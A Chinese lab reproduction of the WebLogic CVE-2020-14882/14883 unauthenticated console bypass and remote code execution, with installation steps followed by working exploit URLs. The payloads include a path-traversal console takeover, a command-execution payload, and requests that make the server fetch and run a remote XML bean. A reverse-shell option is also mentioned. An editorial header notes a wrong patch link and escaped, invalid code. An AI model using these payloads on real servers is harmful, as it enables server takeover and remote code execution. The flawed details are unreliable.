# 【超详细】CVE-2020-14882 Weblogic 未授权命令执行漏洞复现

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：Unpatched12.2.1.4/JDK8u171 lab, reachable Console, optional outbound XML retrieval
- 证据范围：Detailed independent Windows installation/gadget variants, but incomplete permissions nuance and mechanically escaped code.

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- April2020 patch link predates October2020 vulnerability fixes and is wrong
- Backslash-escaped underscores contaminate Windows jar filename and query parameters
- CDATA delimiters are escaped inside XML and invalid
- Console bypass alone not full admin takeover; explicitly retain limited role distinction
- Image reuse includes installation screenshot under calc execution heading; screenshot content not viewed
- Installation artifacts gated behind account subscription and no hashes
- Large redundant image/footer and tracking-laden source URLs

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/q0iSMBcp5CSJL3mV4Favbw)


点击上方 “公众号” 可以订阅哦！

**0x01 前言**

_1、漏洞说明_  
远程代码执行漏洞 （CVE-2020-14882）POC 已被公开，未经身份验证的远程攻击者可通过构造特殊的 HTTP GET 请求，结合 CVE-2020-14883 漏洞进行利用，利用此漏洞可在未经身份验证的情况下直接接管 WebLogic Server Console ，并执行任意代码，利用门槛低，危害巨大。  
_2、影响版本：_  
Oracle WebLogic Server，版本 10.3.6.0，12.1.3.0，12.2.1.3，12.2.1.4，14.1.1.0。  
_3、漏洞链接：_  
/console/images/%252E%252E%252Fconsole.portal  
_4、环境准备_  
jdk1.8.0\_171  
fmw\_12.2.1.4.0\_wls\_lite\_generic.jar  
_5、相应环境工具包获取方法_  
关注公众号回复 “**Weblogic\_14882**” 自行下载  

********

**0x02 环境搭建**

**1）weblogic 安装**

用管理员权限运行

```
java -jar fmw\_12.2.1.4.0\_wls\_lite\_generic.jar
```

**遇到的第一个问题（图片来源于网络，自己的没有截图）**  



**此安装程序必须使用 Java 开发工具包 (JDK) 执行, 但 C:\\Program Files\\Java\\jre1.8.0\_172 不是有效的 JDK Java 主目录。**
===============================================================================================

解决办法：

**先进入你电脑已安装好的 jdk \\bin 目录下 然后** **java -jar** **执行你的 jar 包就可以了**



之后会是这个酱紫（这部分傻瓜式安装）  



**2）创建域**

全部勾选  



设置账号密码完了选择生产



高级配置：全部选中



设置端口号 ---> 填写账号密码 ---> 一直下一步

在这创建  



等待一会继续下一步 ----->OK！！  



#### **3、启动 Weblogic**

C:\\Oracle\\Middleware\\Oracle\_Home\\user\_projects\\domains\\base\_domain 找到 startWebLogic.cmd 点击启动



启动后输入之前设置的账号密码，访问地址如下表示启动成功：

```
http://192.168.142.132:7001/console
```

  

**0x03 漏洞复现**  

构造 PoC，可以直接未授权接管后台：  

```
http://192.168.142.132:7001/console/images/%252E%252E%252Fconsole.portal?\_nfpb=true&\_pageLabel=AppDeploymentsControlPage&handle=com.bea.console.handles.JMXHandle%28%22com.bea%3AName%3Dbase\_domain%2CType%3DDomain%22%29
```



命令执行 -----> 疯狂弹计算器

```
http://192.168.142.132:7001/console/images/%252E%252E%252Fconsole.portal?\_nfpb=true&\_pageLabel=HomePage1&handle=com.tangosol.coherence.mvel2.sh.ShellSession(%22java.lang.Runtime.getRuntime().exec(%27calc.exe%27);%22)
```





通过 FileSystemXmlApplicationContext() 加载并执行远端 xml 文件：

```
http://192.168.142.132:7001/console/images/%252E%252E%252Fconsole.portal?\_nfpb=true&\_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://xx.x.xx.x/111.xml")
```

PoC 代码：

```
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
  <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
        <value>cmd</value>
        <value>/c</value>
        <value><!\[CDATA\[calc\]\]></value>
      </list>
    </constructor-arg>
  </bean>
</beans>
```



通过此方法，windows 可以往 images 路径下写文件，写入路径为：

```
../../../wlserver/server/lib/consoleapp/webapp/images/xxx.jsp
```



Linux 下可直接反弹 shell：(修改相应的命令就可以)  



通过 ClassPathXmlApplicationContext() 也可以达到相同的效果：  

```
http://192.168.142.132:7001/console/images/%252E%252E%252Fconsole.portal?\_nfpb=true&\_pageLabel=HomePage1&handle=com.bea.core.repackaged.springframework.context.support.ClassPathXmlApplicationContext("http://1.x.x.x/111.xml")
```



**0x04 修复建议**

安装官方最新补丁进行升级：

https://www.oracle.com/security-alerts/cpuapr2020.html

**0x05 参考链接**

```
https://mp.weixin.qq.com/s?\_\_biz=MzkwNzEzMTg3MQ==&mid=2247483846&idx=1&sn=8dd2b7770663e3458117e888208f7f56&chksm=c0dcaf76f7ab266016a6fe868f655ffe75658fa127d223b24a1efe55e056d76a3a600d8858c7&mpshare=1&scene=1&srcid=1102ywVU1T9jszU6Ob0QVVEd&sharer\_sharetime=1604285148881&sharer\_shareid=9dc1efbf8ece2cc4df398706cc9ecfdb&key=e3bce42fc7df4344d65d653594e1f68103b10177a8895a4a8eb8a02e54849be73c323f4b70cc74487913bdf79dc7a301023bf30bb9f7926f11c897265b64b1ff5ef019c5c67026d4e92176a5e331823bce1e62381b911e2521982e632b770bcd5f671a3d582cbd925c301205c84878cbb22c4c1e1d313925c48c0f1899695d01&ascene=1&uin=MTQ2MTgwODgyNQ%3D%3D&devicetype=Windows+10+x64&version=6300002f&lang=zh\_CN&exportkey=AzUNt%2FD5nS1aMRRmh9Ktu8s%3D&pass\_ticket=9MsGm%2BS%2FHqh9sqwul2tehaexdZX1X0vuBaa%2F1tUF9hYzG1Aln%2Ba8C9BBEuucM48A&wx\_header=0
https://mp.weixin.qq.com/s?\_\_biz=Mzg3MDE5OTIwNw==&mid=2247486185&idx=1&sn=6376f69f496f3458c1e6a9de3be5ed68&chksm=ce903021f9e7b9372c5bbc2cde98e9a607bdc915630c55fec8553debf78033a35575b199f386&mpshare=1&scene=1&srcid=1102YvHDsoy2PpA7jHmFG3QJ&sharer\_sharetime=1604279921871&sharer\_shareid=9dc1efbf8ece2cc4df398706cc9ecfdb&key=dab8500b28863cd492aad5409edcdd03897b62f8571f08da13f3ac74bc095b8d8029239bde2316cafed94155e3d8bc1515e72568e0e2f45dd215fcfefc4fbd597db345e82093639bd2c22b251e802f52526002de2df7f959538a0a9ccc94e919bf4f497e678c4b6efa5aaea5f799f8fe5bcb4c0baa62b18ea12f592308636e4d&ascene=1&uin=MTQ2MTgwODgyNQ%3D%3D&devicetype=Windows+10+x64&version=6300002f&lang=zh\_CN&exportkey=A%2BPzCdeFOCXfBMEe5uv1Xsg%3D&pass\_ticket=9MsGm%2BS%2FHqh9sqwul2tehaexdZX1X0vuBaa%2F1tUF9hYzG1Aln%2Ba8C9BBEuucM48A&wx\_header=0
https://blog.csdn.net/qq\_37798548/article/details/90255995
```

文章总结

  

  

  

希望对大家有所帮助  

  

_**走过路过的大佬们留个关注再走呗**_

**往期文章有彩蛋哦******

  

  如果对你有所帮助，点个分享、赞、在看呗！

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
